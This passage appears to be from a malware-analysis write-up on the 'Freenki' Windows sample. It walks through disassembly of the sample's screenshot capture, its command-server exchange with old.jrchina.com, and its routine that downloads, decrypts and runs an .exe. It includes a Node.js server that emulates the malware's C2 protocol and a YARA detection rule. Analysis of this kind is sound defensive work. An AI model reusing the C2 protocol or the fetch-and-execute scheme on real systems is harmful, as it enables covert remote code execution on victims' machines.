01303A4F  |.  FF15 9C913101 CALL DWORD PTR DS:[<&USER32.GetDesktopWindow>]          ; [USER32.GetDesktopWindow
01303A55  |.  8BF0          MOV ESI,EAX
01303A57  |.  8D45 CC       LEA EAX,[EBP-34]
01303A5A  |.  50            PUSH EAX                                                ; /Rect
01303A5B  |.  56            PUSH ESI                                                ; |hWnd
01303A5C  |.  FF15 90913101 CALL DWORD PTR DS:[<&USER32.GetWindowRect>]             ; \USER32.GetWindowRect
01303A62  |.  56            PUSH ESI                                                ; /hWnd
01303A63  |.  FF15 94913101 CALL DWORD PTR DS:[<&USER32.GetWindowDC>]               ; \USER32.GetWindowDC
01303A69  |.  8B75 D4       MOV ESI,DWORD PTR SS:[EBP-2C]
01303A6C  |.  8BD8          MOV EBX,EAX
01303A6E  |.  8B45 D8       MOV EAX,DWORD PTR SS:[EBP-28]
01303A71  |.  2B75 CC       SUB ESI,DWORD PTR SS:[EBP-34]
01303A74  |.  2B45 D0       SUB EAX,DWORD PTR SS:[EBP-30]
01303A77  |.  53            PUSH EBX                                                ; /hDC
01303A78  |.  89B5 50FFFFFF MOV DWORD PTR SS:[EBP-0B0],ESI                          ; |
01303A7E  |.  8985 5CFFFFFF MOV DWORD PTR SS:[EBP-0A4],EAX                          ; |
01303A84  |.  FF15 28903101 CALL DWORD PTR DS:[<&GDI32.CreateCompatibleDC>]         ; \GDI32.CreateCompatibleDC

01303B48  |>  FF15 1C903101 CALL DWORD PTR DS:[<&GDI32.SaveDC>]                     ; \GDI32.SaveDC
01303B4E  |.  FFB5 54FFFFFF PUSH DWORD PTR SS:[EBP-0AC]                             ; /hObject
01303B54  |.  8BF0          MOV ESI,EAX                                             ; |
01303B56  |.  57            PUSH EDI                                                ; |hDC
01303B57  |.  FF15 20903101 CALL DWORD PTR DS:[<&GDI32.SelectObject>]               ; \GDI32.SelectObject
01303B5D  |.  68 2000CC00   PUSH 0CC0020                                            ; /Rop = SRCCOPY
01303B62  |.  6A 00         PUSH 0                                                  ; |SrcY = 0
01303B64  |.  6A 00         PUSH 0                                                  ; |SrcX = 0
01303B66  |.  53            PUSH EBX                                                ; |SrcDC
01303B67  |.  FFB5 5CFFFFFF PUSH DWORD PTR SS:[EBP-0A4]                             ; |DestHeight
01303B6D  |.  FFB5 50FFFFFF PUSH DWORD PTR SS:[EBP-0B0]                             ; |DestWidth
01303B73  |.  6A 00         PUSH 0                                                  ; |DestY = 0
01303B75  |.  6A 00         PUSH 0                                                  ; |DestX = 0
01303B77  |.  57            PUSH EDI                                                ; |DestDC
01303B78  |.  FF15 18903101 CALL DWORD PTR DS:[<&GDI32.BitBlt>]                     ; \GDI32.BitBlt
01303B7E  |.  56            PUSH ESI                                                ; /SavedState
01303B7F  |.  57            PUSH EDI                                                ; |hDC
01303B80  |.  FF15 14903101 CALL DWORD PTR DS:[<&GDI32.RestoreDC>]                  ; \GDI32.RestoreDC
01303B86  |.  8B35 10903101 MOV ESI,DWORD PTR DS:[<&GDI32.DeleteDC>]
01303B8C  |.  57            PUSH EDI                                                ; /hDC
01303B8D  |.  FFD6          CALL ESI                                                ; \GDI32.DeleteDC
01303B8F  |.  53            PUSH EBX
01303B90  |.  FFD6          CALL ESI
01303B92  |.  8D85 60FFFFFF LEA EAX,[EBP-0A0]
01303B98  |.  50            PUSH EAX                                                ; /Arg3
01303B99  |.  6A 01         PUSH 1                                                  ; |Arg2 = 1
01303B9B  |.  6A 00         PUSH 0                                                  ; |Arg1 = 0
01303B9D  |.  FF15 18923101 CALL DWORD PTR DS:[<&ole32.CreateStreamOnHGlobal>]      ; \ole32.CreateStreamOnHGlobal

01303BD1  |.  50            PUSH EAX                                                ; /Arg3 = 1
01303BD2  |.  0F57C0        XORPS XMM0,XMM0                                         ; |
01303BD5  |.  6A 00         PUSH 0                                                  ; |Arg2 = 0
01303BD7  |.  0F1106        MOVUPS DQWORD PTR DS:[ESI],XMM0                         ; |
01303BDA  |.  53            PUSH EBX                                                ; |Arg1
01303BDB  |.  C706 60FB3101 MOV DWORD PTR DS:[ESI],OFFSET 0131FB60                  ; |
01303BE1  |.  FF15 00923101 CALL DWORD PTR DS:[<&gdiplus.GdipCreateBitmapFromHBITMA ; \gdiplus.GdipCreateBitmapFromHBITMAP

01303C34  |.  50            PUSH EAX                                                ; /Arg4 = 1
01303C35  |.  8D85 64FFFFFF LEA EAX,[EBP-9C]                                        ; |
01303C3B  |.  50            PUSH EAX                                                ; |Arg3
01303C3C  |.  FFB5 60FFFFFF PUSH DWORD PTR SS:[EBP-0A0]                             ; |Arg2
01303C42  |.  FF76 04       PUSH DWORD PTR DS:[ESI+4]                               ; |Arg1
01303C45  |.  FF15 F4913101 CALL DWORD PTR DS:[<&gdiplus.GdipSaveImageToStream>]    ; \gdiplus.GdipSaveImageToStream
```

After the malware has sent information to the server, it will begin the last routine. First it send a request to get the data, then decrypt it. After that, it will enter a function.

```nasm
013027EE  |.  E8 CDECFFFF   |CALL RequestAndSend
013027F3  |.  83C4 18       |ADD ESP,18
013027F6  |.  84C0          |TEST AL,AL
013027F8  |.- 75 0C         |JNZ SHORT 01302806
013027FA  |.  68 A8610000   |PUSH 61A8
013027FF  |.  FFD7          |CALL EDI
01302801  |.- E9 3DFFFFFF   |JMP 01302743
01302806  |>  8B95 3CD4FFFF |MOV EDX,DWORD PTR SS:[EBP-2BC4]
0130280C  |.  85D2          |TEST EDX,EDX
0130280E  |.- 75 0C         |JNZ SHORT 0130281C
01302810  |.  68 A8610000   |PUSH 61A8
01302815  |.  FFD7          |CALL EDI
01302817  |.- E9 27FFFFFF   |JMP 01302743
0130281C  |>  8BB5 38D4FFFF |MOV ESI,DWORD PTR SS:[EBP-2BC8]
01302822  |.  8BCE          |MOV ECX,ESI
01302824  |.  E8 F7E8FFFF   |CALL decrypt                                           ; [freenki.decrypt
01302829  |.  8BCE          |MOV ECX,ESI
0130282B  |.  66:C74432 FE  |MOV WORD PTR DS:[ESI+EDX-2],0
01302832  |.  E8 D9FBFFFF   |CALL NewPayloadProcess                                 ; [freenki.NewPayloadProcess
```

In `NewPayloadProcess`, it will call to the server with code=0x33, then it will look for `\r\n` in the previous request.

```nasm
01302431   .  8BD9          MOV EBX,ECX
01302438   .  68 CCF83101   PUSH OFFSET 0131F8CC                                    ; \r\n in ascii
0130243D   .  53            PUSH EBX
0130243E   .  8BF3          MOV ESI,EBX
01302440   .  E8 B02A0000   CALL strfind
```

Then it will check if the first byte is 0x31 or `1` in ascii.

```nasm
01302490   .  66:833B 31    CMP WORD PTR DS:[EBX],31
```

Then it will get the rest of the data to another function. In this function, it will connect to the address stored in `DS:[EBX+1]` and get some data. Just the same thing, but this time, the headers are a little different.

```
GET:/hello_world
{ host: 'old.jrchina.com',
  'x-real-ip': '42.119.12.160',
  'x-forwarded-for': '42.119.12.160',
  connection: 'close',
  accept: '*/*',
  'user-agent':
   'Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/6.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; Tablet PC 2.0; .NET4.0E; InfoPath.3)' }
```

It has `accept: '*/*'` and using `GET` now. I don't know why, but there's a change in the request. Then it will do a few checks with the returned data,

```nasm
013022DE  |.  E8 5DEFFFFF   CALL FetchBinary
013022E3  |.  8BF8          MOV EDI,EAX
013022E5  |.  85FF          TEST EDI,EDI
013022E7  |.- 0F84 0C010000 JZ 013023F9
013022ED  |.  8BB5 F4FBFFFF MOV ESI,DWORD PTR SS:[EBP-40C]
013022F3  |.  83FE 64       CMP ESI,64
013022F6  |.- 0F8C F4000000 JL 013023F0
013022FC  |.  813F 504E4746 CMP DWORD PTR DS:[EDI],46474E50
01302302  |.- 0F85 E8000000 JNE 013023F0
01302308  |.  8D56 FB       LEA EDX,[ESI-5]
0130230B  |.  8D4F 05       LEA ECX,[EDI+5]
0130230E  |.  8995 F4FBFFFF MOV DWORD PTR SS:[EBP-40C],EDX
01302314  |.  E8 87EEFFFF   CALL parity_check                                       ; [freenki.parity_check
01302319  |.  3A47 04       CMP AL,BYTE PTR DS:[EDI+4]
0130231C  |.- 0F85 CE000000 JNE 013023F0
01302322  |.  8D4F 05       LEA ECX,[EDI+5]
01302325  |.  E8 F6EDFFFF   CALL decrypt                                            ; [freenki.decrypt
```

The code is ugly, it was using offset to check. First four bytes must be a concrete value, `0x46474e50` or `PNGF` in ascii. The next byte must be equal to the output of `parity_calculation` of the data. Then it will decrypt our data. The parity calculation is a xor with shift.

```nasm
013011A0  /$  56            PUSH ESI                                                ; freenki.parity_check(guessed void)
013011A1  |.  8BF1          MOV ESI,ECX
013011A3  |.  33C0          XOR EAX,EAX
013011A5  |.  32C9          XOR CL,CL
013011A7  |.  85D2          TEST EDX,EDX
013011A9  |.- 0F8E 7E000000 JLE 0130122D
013011AF  |.  83FA 20       CMP EDX,20
013011B2  |.- 72 6D         JB SHORT 01301221
013011B4  |.  8BCA          MOV ECX,EDX
013011B6  |.  57            PUSH EDI
013011B7  |.  81E1 1F000080 AND ECX,8000001F
013011BD  |.- 79 05         JNS SHORT 013011C4
013011BF  |.  49            DEC ECX
013011C0  |.  83C9 E0       OR ECX,FFFFFFE0
013011C3  |.  41            INC ECX
013011C4  |>  8BFA          MOV EDI,EDX
013011C6  |.  0F57D2        XORPS XMM2,XMM2
013011C9  |.  2BF9          SUB EDI,ECX
013011CB  |.  0F28CA        MOVAPS XMM1,XMM2
013011CE  |.  66:90         NOP
013011D0  |>  0F100406      /MOVUPS XMM0,DQWORD PTR DS:[EAX+ESI]
013011D4  |.  660FEFD0      |PXOR XMM2,XMM0
013011D8  |.  0F104406 10   |MOVUPS XMM0,DQWORD PTR DS:[EAX+ESI+10]
013011DD  |.  83C0 20       |ADD EAX,20
013011E0  |.  660FEFC8      |PXOR XMM1,XMM0
013011E4  |.  3BC7          |CMP EAX,EDI
013011E6  |.- 7C E8         \JL SHORT 013011D0
013011E8  |.  660FEFCA      PXOR XMM1,XMM2
013011EC  |.  0F28C1        MOVAPS XMM0,XMM1
013011EF  |.  660F73D8 08   PSRLDQ XMM0,8
013011F4  |.  660FEFC8      PXOR XMM1,XMM0
013011F8  |.  0F28C1        MOVAPS XMM0,XMM1
013011FB  |.  660F73D8 04   PSRLDQ XMM0,4
01301200  |.  660FEFC8      PXOR XMM1,XMM0
01301204  |.  0F28C1        MOVAPS XMM0,XMM1
01301207  |.  660F73D8 02   PSRLDQ XMM0,2
0130120C  |.  660FEFC8      PXOR XMM1,XMM0
01301210  |.  0F28C1        MOVAPS XMM0,XMM1
01301213  |.  660F73D8 01   PSRLDQ XMM0,1
01301218  |.  660FEFC8      PXOR XMM1,XMM0
0130121C  |.  660F7EC9      MOVD ECX,XMM1
01301220  |.  5F            POP EDI
01301221  |>  3BC2          CMP EAX,EDX
01301223  |.- 7D 08         JGE SHORT 0130122D
01301225  |>  320C30        /XOR CL,BYTE PTR DS:[ESI+EAX]
01301228  |.  40            |INC EAX
01301229  |.  3BC2          |CMP EAX,EDX
0130122B  |.- 7C F8         \JL SHORT 01301225
0130122D  |>  8AC1          MOV AL,CL
0130122F  |.  5E            POP ESI
01301230  \.  C3            RETN
```

I can't find any code to copy, so I follow the assembly and code a parity calculation routine in nodejs.

```js
const parity = (m) => {
  m = Buffer.from(m);
  let xmm0 = Buffer.from('00000000000000000000000000000000', 'hex');
  let xmm1 = Buffer.from('00000000000000000000000000000000', 'hex');
  let xmm2 = Buffer.from('00000000000000000000000000000000', 'hex');
  let i;
  for (i = 0; i < Math.floor(m.length / 0x20) * 0x20; i += 0x20) {
    xorInplace(xmm2, m.slice(i, i+0x10));
    xorInplace(xmm1, m.slice(i+0x10, i+2*0x10));
  }

  xorInplace(xmm1, xmm2);
  reverseInplace(xmm0);
  reverseInplace(xmm1);

  xmm1.copy(xmm0);
  shr(xmm0, 8 * 8);
  xorInplace(xmm1, xmm0);

  xmm1.copy(xmm0);
  shr(xmm0, 4 * 8);
  xorInplace(xmm1, xmm0);

  xmm1.copy(xmm0);
  shr(xmm0, 2 * 8);
  xorInplace(xmm1, xmm0);

  xmm1.copy(xmm0);
  shr(xmm0, 1 * 8);
  xorInplace(xmm1, xmm0);

  parity_bit = xmm1[15];
  for (; i < m.length; i++)
    parity_bit ^= m[i];

  // console.log(m);
  console.log(parity_bit.toString(16))
  return Buffer.from(parity_bit.toString(16), 'hex');
}
```

Where `xorInplace`, `shr`, `shl`, `reverseInplace` is taken online. It was quite annoying with these buffers, endianess and buffer concatination. In nodejs, Buffer should be concat, not `+`.

```js
msg = Buffer.concat([Buffer.from('PNGF'), parity(payload), payload]);
```

After that, the payload is used in a function with its length. And look on that, the function calls are very catchy.


```nasm
01302357  |.  8B95 F4FBFFFF MOV EDX,DWORD PTR SS:[EBP-40C]
0130235D  |.  8BCB          MOV ECX,EBX
0130235F  |.  E8 BCFDFFFF   CALL ExecBinary


01302198  |.  50            PUSH EAX                                                ; /Buffer = ""
01302199  |.  68 FF000000   PUSH 0FF                                                ; |Bufcount = 255.
0130219E  |.  FF15 88903101 CALL DWORD PTR DS:[<&KERNEL32.GetTempPathW>]            ; \KERNEL32.GetTempPathW

013021FC  |.  68 F4F83101   PUSH OFFSET 0131F8F4                                    ; UNICODE "%s\%s.exe"
01302201  |.  50            PUSH EAX
01302202  |.  E8 79F7FFFF   CALL 01301980
01302207  |.  8D85 FCFBFFFF LEA EAX,[EBP-404]
0130220D  |.  68 08F93101   PUSH OFFSET 0131F908                                    ; UNICODE "wb"
01302212  |.  50            PUSH EAX
01302213  |.  E8 AF900000   CALL 0130B2C7


01302255  |.  8D85 FCFDFFFF LEA EAX,[EBP-204]
01302263  |.  6A 00         PUSH 0                                                  ; /Arg6 = 0
01302265  |.  6A 00         PUSH 0                                                  ; |Arg5 = 0
01302267  |.  50            PUSH EAX                                                ; |Arg4
01302268  |.  8D85 FCFBFFFF LEA EAX,[EBP-404]                                       ; |
0130226E  |.  50            PUSH EAX                                                ; |Arg3
0130226F  |.  68 1CF93101   PUSH OFFSET 0131F91C                                    ; |Arg2 = UNICODE "open"
01302274  |.  6A 00         PUSH 0                                                  ; |Arg1 = 0
01302276  |.  FF15 88913101 CALL DWORD PTR DS:[<&SHELL32.ShellExecuteW>]            ; \SHELL32.ShellExecuteW
```

It writes the data to a temp file and execute it, with argument `abai`. If the binary fails, it will terminate it self, there is a SEH handler setup to terminate if something goes wrong.

## The dummy server

Write a dummy server to response and return a PE file that will open a message box, `You've been hacked`. I tried to work with python, but it was not good, so I switch to nodejs.

```js
const hacked_binary = Buffer.from(fs.readFileSync('./freenki_hacked.exe', { encoding: 'hex' }), 'hex');

const requestHandler = (request, response) => {

  console.log('================INCOMMING REQUEST===============');
  console.log(request.method + ":" + request.url);
  console.log(request.headers);

  if (request.url == '/hello_world') {
    payload = encrypt(hacked_binary);
    msg = Buffer.concat([Buffer.from('PNGF'), parity(payload), payload]);
    console.log('=> bad PE file');
    response.write(msg);
    response.end();
    return;
  }

  let body = [];
  request.on('error', (err) => {
    console.error(err);
  }).on('data', (chunk) => {
    body.push(chunk);
  }).on('end', () => {
    body = Buffer.concat(body)
    data = body.slice(1+2*6);

    body = body.toString();
    // At this point, we have the headers, method, url and body, and can now
    // do whatever we need to in order to respond to this request.
    code = body[0];
    mac = body.slice(1, 2*6);

    console.log(code + " " + mac);
    if (code !== '4') console.log(decrypt(data).toString());
    else console.log('pictures');

    response.statusCode = 200;
    let msg;
    if (code == '0')
      msg = 'Freenki response\0';
    else if (code == '2')
      msg = encrypt('1http://old.jrchina.com/hello_world\r\n\0');
    else
      msg = encrypt('dummy\0');
    console.log('=> ' + msg);
    response.write(msg);
    response.end();
  });
}

const port = 3000;
const server = http.createServer(requestHandler)
server.listen(port, (err) => {
  if (err) {
    return console.log('something bad happened', err)
  }

  console.log(`server is listening on ${port}`)
});
```

I run this on my server, `luibo.online` and use nginx to proxy by host name. On windows machine, the host must be changed so that every `old.jrchina.com` request will be redirected on the right spot. The result:


## Yara rules

The final step we need to do is write a yara rule, [Yara](https://github.com/VirusTotal/yara.git) is a tools to detect any binary files, base on rules. The guild to write yara rules is [online](https://yara.readthedocs.io/en/v3.8.1/writingrules.html), and very easy.

```yara
rule RuleName
{
  strings:
    $str1 = "string to match"
    $str2 = { 00 01 02 03 } // bytes to match

  condition:
    $str1 or $str2
}
```

Our binary has many interesting strings, and bytes. We can just detect the strings:

```yara
rule Freenki
{
  strings:
    $reg = "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run" wide
    $regkey = "runsample" wide
    $getaddapteraddr_fail = "Call to GetAdaptersAddresses failed.\n" ascii
    $screenshot_fail = "failed to take the screenshot. err: %d\n" ascii

  condition:
    $reg and $regkey and $getaddapteraddr_fail and $screenshot_fail
}
```

A sample run

```bash
./yara ~/VM/windows_efiens/internship/week6/freenki.yara ~/VM/windows_efiens/freenki.exe
Freenki /home/luibo/VM/windows_efiens/freenki.exe
```

When writing Yara rules, we should take special strings, special bytes that it can only exists in the specific binary. That way we can write rules that matches one binary only.


## Overal review

This malware is quite simple, there is no anti debug (it has, but I never break at it), there is no anti VM, there is no packing. The whole code is just there. If there is anything hard, it should be how Visual Studio optimize code. Most of the strings functions that I've found are inline, strcmp, strlen, strcpy, strfind. HeapFree, RtlAlloc, and re-alloc is written as a wrapper to Kernel32. There are some places where code just look weird, either the author hand coded them or Visual Studio just somehow optimize things in a very distince way. I had fun doing this malware, there were a lot to learn from and many new points. Also, the binary has normal functions call, `__stdcall`, but at some places, it was using `__fastcall` or `__thiscall`, arguments were passing by `ECX, EDX, and stack`. It seems more to be `__thiscall`, maybe the author used classes to write this malware.

The `help` function written in understanable C is avaiable [here](./note.md).

The full source code for the server is [here](./freenki.js).

The hacked binary source is [here](./hacked.cpp)

P.S: When writing this report, I open the binary in my machine IDA, and it can define the RequestAndSend function. IDA I have on my company machine cannot do this, I think because of version difference.
